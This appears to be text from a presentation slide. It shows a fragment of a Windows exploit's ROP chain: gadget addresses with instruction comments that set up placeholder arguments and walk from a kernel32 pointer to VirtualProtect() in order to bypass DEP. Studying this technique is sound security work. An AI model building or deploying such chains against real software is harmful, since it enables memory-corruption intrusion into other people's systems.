

# Gadget Shellcode
########## VirtualProtect call placeholder ##########
rop += "\x42\x45\x45\x46"                       #&Kernel32.VirtualProtect() placeholder - "BEEF"
rop += "WWWW"                                   #Return address param placeholder
rop += "XXXX"                                   #lpAddress param placeholder
rop += "YYYY"                                   #Size param placeholder
rop += "ZZZZ"                                   #flNewProtect param placeholder
rop += "\x60\xFC\x18\x10"                       #lpflOldProtect param placeholder 0x1018FC60 {PAGE_WRITECOPY}
rop += rop_align    * 2
########## Grab kernel32 pointer from the stack, place it in EAX ##########
rop += "\x5D\x1C\x12\x10" * 6                   #0x10121C5D :  # SUB EAX,30 # RETN
rop += "\xF6\xBC\x11\x10"                       #0x1011BCF6 :  # MOV EAX,DWORD PTR DS:[EAX] # POP ESI # RETN
rop += rop_align
########## EAX = kernel pointer, now retrieve pointer to VirtualProtect() ##########
rop += ("\x76\xE5\x12\x10" + rop_align) * 4     #0x1012E576 :  # ADD EAX,100 # POP EBP # RETN
rop += "\x40\xD6\x12\x10"                       #0x1012D640 :  # ADD EAX,20 # RETN
rop += "\xB1\xB6\x11\x10"                       #0x1011B6B1 :  # ADD EAX,0C # RETN
rop += "\xD0\x64\x03\x10"                       #0x100364D0 :  # ADD EAX,8 # RETN
rop += "\x33\x29\x0E\x10"                       #0x100E2933 :  # DEC EAX # RETN
rop += "\x01\x2B\x0D\x10"                       #0x100D2B01 :  # MOV ECX,EAX # RETN
rop += "\xC8\x1B\x12\x10"                       #0x10121BC8 :  # MOV EAX,EDI # POP ESI # RETN
Small section of shellcode showing several gadgets chained together to locate kernel32!VirtualProtect()